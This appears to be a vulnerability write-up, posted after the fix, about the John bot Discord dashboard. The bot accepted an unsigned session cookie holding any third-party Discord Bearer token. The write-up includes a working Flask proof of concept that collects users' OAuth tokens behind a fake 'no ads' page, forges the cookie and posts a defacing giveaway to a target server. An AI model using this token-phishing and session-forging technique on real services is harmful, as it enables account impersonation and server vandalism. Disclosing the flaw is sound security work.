



## The bird impersonator
*Fixed on: 03/07/2026*

[Website](https://www.johnbot.app) | [Discord](https://discord.gg/abePbS7QKY)

It's a small multi-purpose bot with simple functionality and modules.



While searching and testing things, I noticed that the session cookie, `discord_session`, has this format:

```js
j:{"access_token":"<Bearer>","refresh_token":"<Refresh>","expires_in":"<Integer>","scope":"<Scopes>","token_type":"Bearer","renew_time":"<Integer>","user_id":"<Snowflake>"}
```

The first thing that is bad with this is that there is no signature, so you can tamper the cookie as you want. Now, you may already be thinking that the `user_id` could be changed to any other user id to impersonate them, but no; the server checks if the user ID of the bearer token matches the cookie value. I would think, what's going on with that Bearer token itself?

As you may know, this Bearer token is used by the application to identify your account, so the website can check on which guilds you are and what permissions you have over those guilds. This token is retrieved by the website at the moment that you hit the "Authorize" button in Discord.



As you may see, the bot does not ask for special permissions. Other apps also does not ask for special permissions, so, what would happen if I use a Bearer token from a 3rd party app as the cookie?

I tried to use a Bearer token issued with one of my apps... and it worked. I also noticed that I just need two fields in the cookie, `access_token` and `user_id`:



This means that whoever has a Bearer token with your identity and with the `identify` & `guilds` scopes, can impersonate you on the John bot dashboard. That should not be possible. Moreover, while testing I noticed that the `guilds` scope is not needed as you can directly make requests to the API endpoints and it will success. That makes the bug more weaponizable than it already is. 

As example, I made this simple Python website which gets a Bearer token and creates a giveaway in the target guild:

```py
import requests

from flask import request, Flask, render_template

API_ENDPOINT = 'https://discord.com/api/v10'
CLIENT_ID = '<CLIENT_ID HERE>'
CLIENT_SECRET = '<CLIENT_SECRET HERE>'
REDIRECT_URI = '<TARGET URI>'

TARGET_GUILD_ID = "<TARGET GUILD ID>"

app = Flask(__name__)

def get_token(code):
  data = {
    'grant_type': 'authorization_code',
    'code': code,
    'redirect_uri': REDIRECT_URI
  }
  headers = {
    'Content-Type': 'application/x-www-form-urlencoded'
  }
  r = requests.post('%s/oauth2/token' % API_ENDPOINT, data=data, headers=headers, auth=(CLIENT_ID, CLIENT_SECRET))
  r.raise_for_status()

  return r.json()["access_token"]

def get_user_id(token):
    data = requests.get('%s/users/@me' % API_ENDPOINT, headers={"Authorization": f"Bearer {token}"}).json()

    return data["id"]


@app.route("/")
def index():
    return render_template("index.html")

@app.route("/callback")
def callback():
    code = request.query_string.split(b"=")[1]

    tok = get_token(code.decode())
    user_id = get_user_id(tok)

    cookies = {"discord_session":"j:{\"access_token\":\"" + tok + "\",\"user_id\":\"" + user_id + "\"}"}
    headers = {"Content-Type": "application/json", "Referer": "https://www.johnbot.app/"}

    # Now, create a giveaway in the server.
    data =  {"ChannelId":"<channel_id_here>","Name":"THIS SERVER HAS BEEN HACKED BY THE MIKSQUAD!!!!","Prize":"FUCK OFF","Host":{"HostedBy":"<some snowflake here>","HostedAt":None},"Embed":{"Author":{"name":None,"iconURL":None,"url":None},"Title":"GET PWNED","Description":"UWU OWO","Footer":{"text":None,"iconURL":None},"Image":None,"Thumbnail":None,"Color":None,"Timestamp":True},"Button":{"Emoji":None,"Label":None,"Color":1},"EntriesList":False,"EndAt":1828624260000,"WinnerCount":1,"AllowedRoles":[],"IgnoredRoles":[],"Entries":[],"MaxEntries":0,"Winners":[],"Ended":False,"Updated":True}
    _ = requests.post(f"https://api.johnbot.app/guilds/{TARGET_GUILD_ID}/data/giveaways", cookies=cookies, json=data, headers=headers)

    print("[*] Giveaway created successfully")

    return "Sowwy! there are no ads available for your region."

app.run("127.0.0.1", 8000)
```

And welp, here's the PoC:

https://github.com/user-attachments/assets/87ea81f4-ff79-4c82-a304-028ffea55ec8

The dev fixed it quickly.
